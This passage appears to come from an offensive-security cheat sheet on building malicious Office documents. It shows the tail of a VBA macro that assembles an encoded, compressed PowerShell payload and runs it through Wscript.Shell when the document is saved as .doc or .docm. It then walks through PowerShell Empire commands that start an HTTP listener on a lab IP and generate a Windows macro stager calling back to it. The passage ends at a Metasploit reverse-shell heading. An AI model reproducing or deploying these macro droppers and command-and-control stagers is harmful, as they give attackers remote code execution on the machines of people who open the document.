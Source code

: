 ```sh
    ...
    Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
    Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
    Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
    Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"   
    Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
    Str = Str + "QA=" 
    
    CreateObject("Wscript.Shell").Run Str 
End Sub
```

Now save the file as either a `docm` file type or a `doc` (older) file type 

**ALTERNATIVELY**

we can use powershell empire

```sh
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host 192.168.119.194
(Empire: listeners/http) > set Name exploit
(Empire: listeners/http) > execute
[*] Starting listener 'exploit'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > usestager windows/macro
(Empire: stager/windows/macro) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  exploit           http            http://192.168.119.194:80            5/0.0                  

(Empire: stager/windows/macro) > set Listener exploit
(Empire: stager/windows/macro) > execute

[*] Stager output written out to: /tmp/macro
```

Check if macro was embedded using `olevba word_macro.doc from [oletools](https://github.com/decalage2/oletools)

## Metasploit framework

### Windows reverse meterpreter shell
